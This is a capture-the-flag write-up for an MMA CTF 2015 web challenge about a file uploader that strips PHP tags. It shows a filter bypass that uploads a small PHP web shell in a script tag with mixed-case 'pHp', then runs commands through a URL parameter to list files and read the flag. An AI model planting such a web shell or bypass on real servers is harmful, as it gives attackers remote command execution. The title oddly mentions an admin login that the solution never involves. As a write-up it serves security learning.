 
## MMA 1st CTF 2015 - Login as admin (Web 30)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 
This uploader deletes all /<\?|php/. So you cannot run php.
```
http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)
```
You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.
___
### Solution

These are the challenges that you either solve in 5 mins, or you never solve. We can upload php
files but they cannot contain <? php, or <?php. However it is possible to execute php as follows:
```html
	<script language="php"></script>
```

Thus all we have to do is to upload the following file:
```html
<script language="pHp">
	system( $_GET['cmd'] );
</script>
```

Because "php" string is filtered, we use "pHp" filter instead, as filter is case sensitive. 
Let's start. First we list all files:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=ls / -la 
```

There's a file called flag. We read it:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=cat /flag
```
And we get the flag: **MMA{you can run php from script tag}**
___